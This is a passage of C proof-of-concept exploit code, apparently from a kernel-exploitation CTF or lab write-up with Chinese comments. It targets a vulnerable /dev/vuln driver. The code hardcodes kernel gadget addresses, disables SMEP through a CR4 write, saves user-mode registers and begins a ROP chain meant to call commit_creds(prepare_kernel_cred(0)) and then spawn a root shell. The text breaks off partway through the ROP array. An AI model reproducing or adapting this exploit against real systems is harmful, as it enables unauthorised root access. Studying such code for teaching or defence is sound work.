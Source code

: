 poc：
```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/ioctl.h>

typedef int __attribute__((regparm(3)))(*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

// 两个函数的地址
_commit_creds commit_creds = (_commit_creds) 0xffffffff810a1420;
_prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred) 0xffffffff810a1810;

unsigned long xchg_eax_esp = 0xFFFFFFFF81007808;
unsigned long rdi_to_cr4 = 0xFFFFFFFF810635B4; // mov cr4, rdi ;pop rbp ; ret
unsigned long pop_rdi_ret = 0xFFFFFFFF813E7D6F;
unsigned long iretq = 0xffffffff814e35ef;
unsigned long swapgs = 0xFFFFFFFF81063694;  // swapgs ; pop rbp ; ret
unsigned long poprbpret = 0xffffffff8100202b;  //pop rbp, ret


unsigned long mmap_base = 0xb0000000;

void get_shell() {
    system("/bin/sh");
}


void get_root() {
    commit_creds(prepare_kernel_cred(0));
}

/* status */
unsigned long user_cs, user_ss, user_rflags;
void save_stats() {
    asm(
        "movq %%cs, %0\n" // mov rcx, cs
        "movq %%ss, %1\n" // mov rdx, ss
        "pushfq\n"        // 把rflags的值压栈
        "popq %2\n"       // pop rax
        :"=r"(user_cs), "=r"(user_ss), "=r"(user_rflags) : : "memory" // mov user_cs, rcx; mov user_ss, rdx; mov user_flags, rax
        );
}



int main(void)
{
    int fd;
    char buf[16];

    fd = open("/dev/vuln", O_RDWR);
    if (fd == -1) {
        printf("open /dev/vuln device failed!\n");
        return -1;
    }
    
    save_stats();
    printf("mmap_addr: %p\n", mmap(mmap_base, 0x30000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0));
    // 布局 rop 链
    unsigned long rop_chain[] = {
        pop_rdi_ret,
```